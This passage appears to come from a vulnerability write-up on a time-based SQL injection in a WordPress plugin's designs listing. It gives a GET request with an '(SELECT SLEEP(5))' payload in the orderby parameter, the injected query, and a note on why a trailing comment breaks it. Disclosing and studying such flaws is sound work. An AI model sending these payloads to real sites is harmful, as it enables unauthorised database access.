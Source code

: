 ### Detect SQLi

Send a **GET request** containing an SQLi payload.

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

The resulting SQL becomes:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25
                OFFSET 0
```

![time response](time_resp.png "Time-based SQLi Response")

👉 Based on the response time => the payload is effective.

> In this case, do not append a comment after `SLEEP`. Because the developer has an Enter/newline that moves **OFFSET** to the next line; if you comment it out, the SQL parser may return an error.

![debug](debug.png "Debug SQL Error")

The chain will be split into two queries on different lines causing an error:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) -- ASC LIMIT 25               
OFFSET 0
```
